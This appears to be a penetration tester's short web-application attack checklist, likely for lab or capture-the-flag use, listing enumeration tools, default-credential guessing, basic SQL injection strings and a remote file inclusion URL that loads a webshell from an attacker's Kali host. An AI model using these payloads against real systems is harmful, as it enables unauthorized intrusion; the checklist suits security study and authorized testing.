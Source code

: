 Web App Playbook

* Feroxbuster
* Curl
* If login page found:
* Try basic creds (admin/admin, root/root, admin/website name, etc.)
* Try basic SQLI (`asdf' or 1=1--`, `asdf' or 1=1;`, etc.)
* F12
* What software is the server using?
* View page source
*   Look for plaintext creds
*   Software/version enumeration
* Look up default admin pages/creds for any CMS found
* Burp
*   See what how authentication requests work
*   Hydra/intruder
* Try creds found in other enumeration (services on other ports, etc., if available)
* Does the page use php?  Try basic RFI: `http://example.com/index.php?page=http://<kali ip>/<webshell.php>`
   * (use index.php, or if you find a different php file, use that)
